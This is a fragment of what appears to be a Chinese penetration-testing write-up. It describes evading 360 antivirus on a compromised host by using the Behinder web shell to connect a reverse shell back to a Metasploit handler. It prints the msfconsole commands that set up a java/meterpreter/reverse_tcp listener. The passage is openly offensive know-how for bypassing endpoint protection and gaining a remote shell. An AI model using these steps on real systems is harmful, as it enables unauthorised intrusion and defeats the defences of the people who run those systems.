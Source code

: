 ![截图](54c69b2c3c8160b84210c98c3c3aedf0.png)

主机上存在360，我们直接上传并执行msf生成的后门，基本是会被360查杀的

# 0x03 绕过杀软+权限维持与提升

我们这里其实可以不用折腾去做静态或动态免杀，可以用下列几种方法绕过360并上线：

## 3.1 绕过杀软、维持权限

### （1）方法一：使用冰蝎直接上线msf

kali上启动msf，并配置handler监听

```
msfconsole
use exploit/multi/handler
set payload java/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 2333
exploit
```

然后冰蝎去执行反弹shell的连接，msf即可上线成功

![截图](6f837875adeeb1706b98f5462e12e074.png)

